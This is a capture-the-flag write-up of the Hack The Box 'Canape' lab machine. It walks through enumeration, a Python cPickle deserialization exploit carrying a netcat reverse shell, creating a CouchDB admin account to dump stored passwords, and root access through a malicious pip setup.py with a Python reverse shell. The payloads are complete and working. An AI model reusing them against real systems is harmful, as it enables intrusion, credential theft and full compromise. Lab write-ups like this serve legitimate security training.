


---
search:
  exclude: true
---
# Canape Writeup

## Introduction :

Canape is a Medium linux box released back in April 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → nmap -F 10.10.10.70 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 07:34 GMT
      Nmap scan report for 10.10.10.70
      Host is up (0.094s latency).
      Not shown: 8319 filtered ports
      PORT   STATE SERVICE
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 26.21 seconds
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → nmap -sCV -p80 10.10.10.70
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 07:35 GMT
      Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
      Nmap done: 1 IP address (0 hosts up) scanned in 3.88 seconds
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → nmap -sCV -p80 10.10.10.70 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 07:35 GMT
      Nmap scan report for 10.10.10.70
      Host is up.
    
      PORT   STATE    SERVICE VERSION
      80/tcp filtered http
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
    
      λ nihilist [ 10.10.14.5/23 ] [~/_HTB/Canape]
      → nmap -sCV 10.10.10.70
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 08:42 GMT
      Nmap scan report for 10.10.10.70
      Host is up (0.042s latency).
      Not shown: 999 filtered ports
      PORT   STATE SERVICE VERSION
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      | http-git:
      |   10.10.10.70:80/.git/
      |     Git repository found!
      |     Repository description: Unnamed repository; edit this file 'description' to name the...
      |     Last commit message: final # Please enter the commit message for your changes. Li...
      |     Remotes:
      |_      http://git.canape.htb/simpsons.git
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Simpsons Fan Site
      |_http-trane-info: Problem with XML parsing of /evox/about
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan seems to have picked up port 80 running http, so let's investigate it :

Trying to dirsearch the website gives off quite strange results, since every request gives back a 200 status code, so our best bet at finding which really is a successful response is by looking at the size of the response we get most notably those that are not 3KB. Although after fiddling with it a bit, we see that even those that are AND are not 3KB are not even consistent in their responses, it really looks like an unstable webserver.

Although from this mess, we still see that we are dealing with a CouchDB website. Our nmap scan picked up a github repository in /.git/ aswell as a domain name : canape.htb with it's subdomain git.canape.htb so before we investigate all those, we add the correct line in our /etc/hosts file and use wfuzz to check what's going on with those 200 status codes:
    
    
      λ root [ 10.10.14.11/23 ] [/home/nihilist]
      → echo '10.10.10.70 canape.htb' >> /etc/hosts
    
      λ root [ 10.10.14.11/23 ] [/home/nihilist]
      → ping canape.htb
      PING canape.htb (10.10.10.70) 56(84) bytes of data.
      64 bytes from canape.htb (10.10.10.70): icmp_seq=1 ttl=63 time=65.3 ms
      64 bytes from canape.htb (10.10.10.70): icmp_seq=2 ttl=63 time=57.0 ms
      ^C
    
    

Now that we added it to our /etc/hosts file let's wfuzz the webservice: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.70/FUZZ
    
      Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    
      ********************************************************
      * Wfuzz 2.4.5 - The Web Fuzzer                         *
      ********************************************************
    
      Target: http://10.10.10.70/FUZZ
      Total requests: 220560
    
      ===================================================================
      ID           Response   Lines    Word     Chars       Payload
      ===================================================================
    
      000000010:   200        82 L     237 W    3076 Ch     "#"
      000000007:   200        82 L     237 W    3076 Ch     "# license, visit http://creativecommons.org/lic
                                                            enses/by-sa/3.0/"
      000000004:   200        82 L     237 W    3076 Ch     "#"
      000000005:   200        82 L     237 W    3076 Ch     "# This work is licensed under the Creative Comm
                                                            ons"
      000000009:   200        82 L     237 W    3076 Ch     "# Suite 300, San Francisco, California, 94105,
                                                            USA."
      000000006:   200        82 L     237 W    3076 Ch     "# Attribution-Share Alike 3.0 License. To view
                                                            a copy of this"
      000000003:   200        82 L     237 W    3076 Ch     "# Copyright 2007 James Fisher"
      000000002:   200        82 L     237 W    3076 Ch     "#"
      000000008:   200        82 L     237 W    3076 Ch     "# or send a letter to Creative Commons, 171 Sec
                                                            ond Street,"
      000000001:   200        82 L     237 W    3076 Ch     "# directory-list-2.3-medium.txt"
      000000012:   200        82 L     237 W    3076 Ch     "# on atleast 2 different hosts"
      000000011:   200        82 L     237 W    3076 Ch     "# Priority ordered case sensative list, where e
                                                            ntries were found"
      000000013:   200        82 L     237 W    3076 Ch     "#"
      000000015:   200        0 L      1 W      52 Ch       "index"
      000000016:   200        82 L     237 W    3076 Ch     "images"
      000000014:   200        82 L     237 W    3076 Ch     ""
      000000019:   200        82 L     237 W    3076 Ch     "news"
      000000020:   200        0 L      1 W      227 Ch      "crack"
      000000017:   200        82 L     237 W    3076 Ch     "download"
      000000018:   200        82 L     237 W    3076 Ch     "2006"
      000000022:   200        0 L      1 W      185 Ch      "warez"
      000000023:   200        0 L      1 W      210 Ch      "full"
      000000021:   200        82 L     237 W    3076 Ch     "serial"
      000000024:   200        82 L     237 W    3076 Ch     "12"
      000000025:   200        0 L      1 W      138 Ch      "contact"
      000000027:   200        82 L     237 W    3076 Ch     "search"
      000000028:   200        0 L      1 W      171 Ch      "spacer"
      000000029:   200        0 L      1 W      193 Ch      "privacy"
      000000026:   200        82 L     237 W    3076 Ch     "about"
      000000030:   200        0 L      1 W      169 Ch      "11"
      000000031:   200        0 L      1 W      73 Ch       "logo"
      000000032:   200        82 L     237 W    3076 Ch     "blog"
      000000033:   200        0 L      1 W      180 Ch      "new"
      000000034:   200        82 L     237 W    3076 Ch     "10"
      000000036:   200        82 L     237 W    3076 Ch     "faq"
      000000037:   200        0 L      1 W      149 Ch      "rss"
      000000038:   200        0 L      1 W      173 Ch      "home"
      000000040:   200        0 L      1 W      185 Ch      "default"
      000000039:   200        82 L     237 W    3076 Ch     "img"
      000000035:   200        82 L     237 W    3076 Ch     "cgi-bin"
      000000041:   200        0 L      1 W      197 Ch      "2005"
      000000043:   200        0 L      1 W      116 Ch      "sitemap"
      000000042:   200        82 L     237 W    3076 Ch     "products"
      000000044:   200        82 L     237 W    3076 Ch     "archives"
      000000045:   200        82 L     237 W    3076 Ch     "1"
      000000047:   200        0 L      1 W      90 Ch       "links"
      000000046:   200        82 L     237 W    3076 Ch     "09"
      000000051:   200        82 L     237 W    3076 Ch     "2"
      000000049:   200        0 L      1 W      233 Ch      "08"
      000000050:   200        0 L      1 W      93 Ch       "06"
      000000048:   200        82 L     237 W    3076 Ch     "01"
      000000052:   200        0 L      1 W      193 Ch      "07"
      000000053:   200        82 L     237 W    3076 Ch     "login"
      000000054:   200        0 L      1 W      184 Ch      "articles"
      000000055:   200        82 L     237 W    3076 Ch     "support"
      000000057:   200        82 L     237 W    3076 Ch     "keygen"
      000000058:   200        0 L      1 W      208 Ch      "article"
      000000060:   200        82 L     237 W    3076 Ch     "03"
      000000059:   200        82 L     237 W    3076 Ch     "04"
      000000056:   200        82 L     237 W    3076 Ch     "05"
      000000062:   200        0 L      1 W      233 Ch      "events"
      000000061:   200        82 L     237 W    3076 Ch     "help"
      000000063:   200        0 L      1 W      110 Ch      "archive"
      000000064:   200        0 L      1 W      135 Ch      "02"
      000000065:   200        0 L      1 W      89 Ch       "register"
      000000067:   200        0 L      1 W      114 Ch      "forum"
      000000066:   200        0 L      1 W      218 Ch      "en"
      000000069:   200        82 L     237 W    3076 Ch     "downloads"
      000000068:   200        82 L     237 W    3076 Ch     "software"
      000000072:   200        0 L      1 W      161 Ch      "13"
      000000073:   200        0 L      1 W      63 Ch       "category"
      000000070:   200        0 L      1 W      123 Ch      "3"
      000000071:   200        0 L      1 W      124 Ch      "security"
      000000074:   200        0 L      1 W      99 Ch       "4"
      000000076:   200        0 L      1 W      149 Ch      "14"
      ^C
    
    

So we'll rule out the 1Word requests using the --hw flag (hide words): 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → wfuzz --hw 1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.70/FUZZ
    

But we also see that we get 3076 characters, so let's change it accordingly using the --hh flag (hide characters): 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → wfuzz --hw 1 --hh 3076 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.70/FUZZ
    

While that runs we'll send a quote and intercept it with burp (foxyproxy + intercepter) and then send it to the repeater (CTRL+R) and go there (CTRL+SHIFT+R)

  

Once the request is saved we can start running another enumerating process in the background (here: wfuzz + sqlmap) 

So from here, we'll check the /check directory using burpsuite. Sqlmap returned that quote isn't injectable. Let's send the intercepted /check request to the repeater : 

However after fuzzing around with /check a bit in burpsuite we get 405 errors : methods not allowed. 

Instead let's move over to the .git directory our nmap scan found earlier : 

    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Canape]
      → git clone http://git.canape.htb/simpsons.git
      Cloning into 'simpsons'...
      fatal: unable to access 'http://git.canape.htb/simpsons.git/': Could not resolve host: git.canape.htb
    

Now doing so gives us an error because we didn't add the correct line at the end of our /etc/hosts file , we need to add BOTH canape.htb and git.canape.htb
    
    
      λ root [ 10.10.14.11/23 ] [nihilist/_HTB/Canape]
      → nano /etc/hosts
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Canape]
      → git clone http://git.canape.htb/simpsons.git
      Cloning into 'simpsons'...
      remote: Counting objects: 49, done.
      remote: Compressing objects: 100% (47/47), done.
      remote: Total 49 (delta 18), reused 0 (delta 0)
      Unpacking objects: 100% (49/49), 163.16 KiB | 262.00 KiB/s, done.
    
    

Once that's done, we git clone the repository and take a look into it for interesting files, beforehand you can cd into simpsons, and type in **git log** to know which commits have been done so let's do it and we see an interesting commit : 
    
    
      commit a389475a903520abba71a5c9b2fa0a15686c8fbb
      Author: Homer Simpson <****homerj0121@outlook.com>
      Date:   Sat Jan 20 07:26:43 2018 -0800
    
          trollface
    
      commit f9be9a9a7b217f67923ec22b360de313854b6ab6
      Author: Homer Simpson <****homerj0121@outlook.com>
      Date:   Mon Jan 15 18:48:16 2018 -0800
    
          add note**commit c8a74a098a60aaea1af98945bd707a7eab0ff4b0**
      Author: Homer Simpson <****homerj0121@outlook.com>
      Date:   Mon Jan 15 18:46:30 2018 -0800
    
          temporarily hide check due to vulerability
      :

let's investigate the last commit (c8a74a098a60aaea1af98945bd707a7eab0ff4b0) which says something about a vulnerability : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [_HTB/Canape/simpsons] at  master ✔
      → git diff c8a74a098a60aaea1af98945bd707a7eab0ff4b0
    

So we run the aforementionned command, and we have a few interesting changes, most notably into /submit's submit python function : 

Instead of sending the quote into cPickle, it goes into a file which is md5 hashed. So we're taking the character and quote user input from the http page whose characters are into the WHITELIST and they must be lowercase. which creates the ID by making a md5sum whose hex is going to be digested. 
    
    
      md5sum(char+quote) is equal to the p_id
    

So the idea here is to open a file whose pid consists of a md5sum of the username and the quote whose characters are in the whitelist, using the check webpage into which cPickle library functions are being called to load the data, so we know that we have a cPickle vulnerability. Essentially, cPickle is like a python serialization, and some things do not serialize well, and basically, cPickle calls a python function:
    
    
    def __reduce__(self):
      import os
      return (os.system,(COMMAND,))
    

In order to clean it up as it does pickling, The exploit is that we serialize a nu reduce call so that once cPickle calls the __reduce__ function it calls the code we just submitted. so let's create the exploit ourselves : 
    
    
      import cPickle
      from hashlib import md5
      import requests
    
      class IppsecRocks(object):
              def __reduce__(self):
                      return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f',))
    
      sc = cPickle.dumps(IppsecRocks()) # pickle up the IppsecRocks class,
      print sc
    

Now that's the skeletton of our exploit, which contains the reverse shell one liner pointing at our port 1234, we pickle up the class itself, and we print it to see if it works. So let's test it : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Canape]
      → python2 exploit.py
      cposix
      system
      p1
      (S'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f'
      p2
      tp3
      Rp4
      .
    

And it gets pickled correctly, so let's continue by following the code we found in our previous git diff cmd: we'll keep in mind that the box is going to md5sum both the character and the quote together, so we need to add an echo command WITHIN the pickle payload:
    
    
      import cPickle
      from hashlib import md5
      import requests
    
      class IppsecRocks(object):
              def __reduce__(self):
                      return (os.system, ('echo homer!;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f',))
    
      sc = cPickle.dumps(IppsecRocks()) # pickle up the IppsecRocks class,
      #print sc
      char,quote = sc.split("!")
    
      print "[+] ------ SPLITTING ------ [+]"
      print char
      print "[+] ------ STRING 2 ------- [+]"
      print quote
    

Now whenever we print out this pickle, it will split it up into 2. So let's test it : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Canape]
      → python2 exploit.py
      [+] ------ SPLITTING ------ [+]
      **cposix
      system
      p1
      (S'echo homer**
      [+] ------ STRING 2 ------- [+]
      ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f'
      p2
      tp3
      Rp4
      .
    
    

So here you can see the CHARACTER highlighted, and below we'll have the actual QUOTE. 
    
    
      import os
    import cPickle
    from hashlib import md5
    import requests
    
    class IppsecRocks(object):
            def __reduce__(self):
                    return (os.system, ('echo homer!;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f',))
    
    sc = cPickle.dumps(IppsecRocks())
    char,quote = sc.split("!")
    
    p_id = md5(char+quote).hexdigest()
    cPickle.loads(char+quote)
    
    

So here we have our testing python script, we execute it and it gives us a reverse shell onto our local box (for testing purposes):

So that's successful, now let's modify it accordingly to send the request to both /submit (with the character and quote parameters that we infected) And then finally we send a request to /check to execute the pickle we sent:

And we get a reverse shell as www-data! however we do not have enough permissions to print out homer's user flag, so we need to privesc. First of all we will upgrade our reverse shell to a tty shell using python's pty.spawn() function:
    
    
      $ python -c 'import pty;pty.spawn("/bin/bash")'
      www-data@canape:/home$ ps -auxww
    

Looking at the results of this command, we see that we have couchdb running as root, and running as homer. so we enumerate the box further using netstat: 
    
    
      www-data@canape:/home$ netstat -alnp | grep LIST
      netstat -alnp | grep LIST
      (Not all processes could be identified, non-owned process info
       will not be shown, you would have to be root to see it all.)
      tcp        0      0 0.0.0.0:32859           0.0.0.0:*               LISTEN      -
      tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      -
      tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      -
      tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      -
      tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
      tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      -
      tcp6       0      0 :::65535                :::*                    LISTEN      -
      tcp6       0      0 :::4369                 :::*                    LISTEN      -
      unix  2      [ ACC ]     STREAM     LISTENING     10727    -                   /run/systemd/journal/stdout
      unix  2      [ ACC ]     SEQPACKET  LISTENING     10740    -                   /run/udev/control
      unix  2      [ ACC ]     STREAM     LISTENING     10729    -                   /run/systemd/fsck.progress
      unix  2      [ ACC ]     STREAM     LISTENING     28181    -                   /var/run/apache2/cgisock.1047
      unix  2      [ ACC ]     STREAM     LISTENING     13346    -                   /var/run/dbus/system_bus_socket
      unix  2      [ ACC ]     STREAM     LISTENING     13347    -                   /run/uuidd/request
      unix  2      [ ACC ]     STREAM     LISTENING     10722    -                   /run/systemd/private
    
    

here we see that 5984 is the default port couchdb listens on. and we can verify that by using curl:
    
    
      www-data@canape:/home$ which curl && which wget && which nc
    which curl && which wget && which nc
    /usr/bin/curl
    /usr/bin/wget
    /bin/nc
    www-data@canape:/home$ curl 127.0.0.1:5984
    curl 127.0.0.1:5984
    {"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
    

So we google couchdb's api documentation quickly and we can enumerate the database further accordingly : 
    
    
      www-data@canape:/home$ curl 127.0.0.1:5984/_all_dbs/
      curl 127.0.0.1:5984/_all_dbs/
      ["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
    
    

Using the /_all_dbs/ api call we see that it has 6 databases, from which we'll search _users and passwords : 
    
    
      www-data@canape:/home$ curl 127.0.0.1:5984/_users/_all_docs
      curl 127.0.0.1:5984/_users/_all_docs
      {"error":"unauthorized","reason":"You are not a server admin."}
      www-data@canape:/home$ curl 127.0.0.1:5984/passwords/_all_docs
      curl 127.0.0.1:5984/passwords/_all_docs
      {"error":"unauthorized","reason":"You are not authorized to access this db."}
    

So we tried, but didn't go far. so since we are dealing with couchdb 2.0.0 there is a very high likelyhood that we are able to exploit this database by creating a username if we craft the corrcet curl PUT request: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Canape]
    → nano curl.req
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Canape]
    → cat curl.req
    curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:nihilist' --data-binary '{
    	"type": "user",
    	"name": "nihilist",
    	"roles": ["_admin"],
    	"roles": [],
    	"password": "prometheus"
    }'
    
    

So this is going to create an administrator user called "nihilist" with his password "prometheus":
    
    
      www-data@canape:/home$ curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:nihilist' --data-binary '{
              "type": "user",
              "name": "nihilist",
              "roles": ["_admin"],
              "roles": [],
              "password": "prometheus"
      }'
    
      {"ok":true,"id":"org.couchdb.user:nihilist","rev":"1-9d2d3e05316aa1d30708576e370b242c"}
    

So there we have it, and we are now able to print out the passwords database by specifying our username and password: 
    
    
      www-data@canape:/home$ curl --user 'nihilist:prometheus' 127.0.0.1:5984/passwords/_all_docs
      < --user 'nihilist:prometheus' 127.0.0.1:5984/passwords/_all_docs
      {"total_rows":4,"offset":0,"rows":[
      {"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
      {"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
      {"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
      {"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
      ]}
    

and we get a bunch of ids, so let's curl each one: 
    
    
      www-data@canape:/home$ curl --user 'nihilist:prometheus' 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
    
      {"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
      www-data@canape:/home$ curl --user 'nihilist:prometheus' 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
    
      {"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
      www-data@canape:/home$ curl --user 'nihilist:prometheus' 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
    
      {"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
      www-data@canape:/home$ curl --user 'nihilist:prometheus' 127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
    
      {"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
    

so we have ssh with a strong password, we have couchdb passsword r3lax0Nth3COUCH, and most importantly, the homer user with his password h02ddjdj2k2k2. We can verify that homer is an user on this machine by printing out /etc/hosts, and therefore we are able to privesc to his permissions using su and his ssh password. 
    
    
      www-data@canape:/home$ cat /etc/passwd | grep homer
      cat /etc/passwd | grep homer
      homer:x:1000:1000:homer,,,:/home/homer:/bin/bash
    

Now we verified that homer is an user on this, we login with his ssh password : 
    
    
      www-data@canape:/home$ su homer -
      su homer -
      Password: 0B4jyA0xtytZi7esBNGp
    
      bash: cannot set terminal process group (-1): Inappropriate ioctl for device
      bash: no job control in this shell
      homer@canape:/home$ cat /home/homer/user.txt
      cat /home/homer/user.txt
      bcXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now our first reflex here is to sudo -l as the user we privesc'd to:
    
    
      homer@canape:/home$ cd homer
      cd homer
      homer@canape:~$ sudo -l
      sudo -l
      sudo: no tty present and no askpass program specified
      homer@canape:~$ python -c 'import pty;pty.spawn("/bin/bash")'
      python -c 'import pty;pty.spawn("/bin/bash")'
      homer@canape:~$ sudo -l
      sudo -l
      [sudo] password for homer: 0B4jyA0xtytZi7esBNGp
    
      Matching Defaults entries for homer on canape:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User homer may run the following commands on canape:
          (root) /usr/bin/pip install *
    

And here we see that homer is allowed to run pip as root. All that we have to do here is create a malicious python package , then install it as root. First we create the setup.py python script containing a python reverse shell pointing at our 9002 port:
    
    
      homer@canape:~/nihilist$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >setup.py
    

then we use pip to execute our malicious setup.py file, and we catch the incoming reverse shell connection using netcat: 

And we get a reverse shell as root ! Therefore we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

